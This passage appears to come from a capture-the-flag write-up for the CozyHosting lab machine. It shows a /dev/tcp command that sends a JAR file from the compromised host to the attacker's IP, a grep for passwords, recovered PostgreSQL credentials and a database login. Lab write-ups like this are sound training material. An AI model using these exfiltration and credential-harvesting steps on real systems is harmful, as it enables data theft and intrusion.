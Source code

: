 ```bash
cat cloudhosting-0.0.1.jar > /dev/tcp/10.10.16.10/4443
```

```bash
unzip cloudhosting-0.0.1.jar
grep -r passw 2>/dev/null
```

![](/assets/CozyHosting/20.png)
<br />
<br />
<br />

We see an interesting line in the **file *application.properties***, if we open it, we will find **credentials** for a **PostgreSQL database**:

![](/assets/CozyHosting/21.png)
<br />
<br />
<br />

Let's **connect to the database** back in the pwned machine:

```bash
psql -U postgres -h localhost
```

![](/assets/CozyHosting/22.png)
<br />
